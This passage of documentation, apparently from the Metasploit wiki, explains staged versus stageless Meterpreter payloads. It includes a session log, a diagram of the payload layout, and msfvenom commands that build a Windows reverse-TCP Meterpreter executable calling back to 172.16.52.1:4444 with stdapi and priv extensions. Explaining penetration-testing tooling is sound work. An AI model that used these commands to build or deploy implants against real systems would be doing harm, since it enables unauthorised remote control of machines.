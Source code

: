 ## What is a staged payload?
## Exploitation (recap) with staged Meterpreter
## What's wrong with staged Meterpreter?
It's hard to believe it possible, but in this case the following image could be considered a nightmare.
```msf
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4684 opened ....
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4685 opened ....
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4686 opened ....
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4687 opened ....
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4688 opened ....
[*] Sending stage (173056 bytes) to xxx.xxx.xxx.xxx
[*] Meterpreter session 4689 opened ....
```

## What does stageless Meterpreter look like?
The final payload layout looks like the following:
```
+-+--------+-----------------------------------------------------------+
| |        |                    Configuration Block                    |
|b|        |+-----------+-+---------+-+---------+-------+-----------+-+|
|o|        ||  session  |S|         |S|         |       |           |N||
|o| metsrv ||    and    |i|  ext 1  |i|  ext 2  |  ...  | ext inits |U||
|t|        || transport |z|         |z|         |       |           |L||
| |        ||  config   |e|         |e|         |       |           |L||
| |        |+-----------+-+---------+-+---------+-------+-----------+-+|
+-+--------+-----------------------------------------------------------+
```

## How do I use stageless Meterpreter?
To make a stageless payload that contains only `metsrv` we do the following:
```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 -f exe -o stageless.exe
```

To add extensions to the payload, we can make use of the `EXTENSIONS` parameter, which takes a comma-separated list of extension names.
```
$ ./msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe
```

